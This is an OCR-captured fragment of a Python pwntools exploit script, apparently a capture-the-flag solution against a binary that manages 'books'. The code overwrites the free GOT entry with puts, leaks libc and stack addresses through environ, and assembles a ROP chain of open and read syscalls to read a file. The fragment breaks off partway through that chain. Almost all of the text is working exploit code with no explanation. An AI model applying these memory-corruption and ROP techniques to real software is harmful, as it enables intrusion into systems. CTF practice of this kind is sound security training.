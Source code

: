 ```py  
       pwn.p64(0x1000), # sz  
       pwn.p64(exe.sym.books), # target  
       b"P"*0x10  
   ])) # count = 0

   # we can write way more due to the previous call  
   edit(1, pwn.flat([  
           # 1==  
           0xff, # sz  
           exe.sym.stdout, # target  
           # 2==  
           0x8, # sz  
           exe.got.free, # target  
           # 3==  
           0x8, # sz  
           exe.sym.secret_msg, # target  
           # 4==  
           0xff, # sz  
           exe.sym.books # target  
       ] + [0] * 0x60, filler = b"\x00"))  
  
   # free@got => puts  
   edit(2, b"".join([  
           pwn.p64(exe.sym.puts)  
       ]))  
  
   # can print = true  
   enable_print(3)

   # libc leak  
   libc.address = libc_leak_free(1)  
   pwn.log.success(f"libc: {hex(libc.address)}")

   # leak stack (environ)  
   edit(4, pwn.flat([  
           # 1==  
           0xff, # sz  
           libc.sym.environ # target  
       ], filler = b"\x00"))

   environ = leak_environ(1)  
   pwn.log.success(f"environ: {hex(environ)}")

   stackframe_rewrite = environ - 0x150  
   pwn.log.success(f"stackframe_rewrite: {hex(stackframe_rewrite)}")

   rop = pwn.ROP(libc, base=stackframe_rewrite)

   # setup the write to the rewrite stackframe  
   edit(4, pwn.flat([  
           # 1==  
           0xff, # sz  
           stackframe_rewrite # target  
       ], filler = b"\x00"))

   # ROPchain  
   rop(rax=pwn.constants.SYS_open, rdi=stackframe_rewrite + 0xde + 2,
rsi=pwn.constants.O_RDONLY) # open  
   rop.call(rop.find_gadget(["syscall", "ret"]))  
   rop(rax=pwn.constants.SYS_read, rdi=3, rsi=heap_leak, rdx=0x100) # file
descriptor bf ...  
   rop.call(rop.find_gadget(["syscall", "ret"]))

```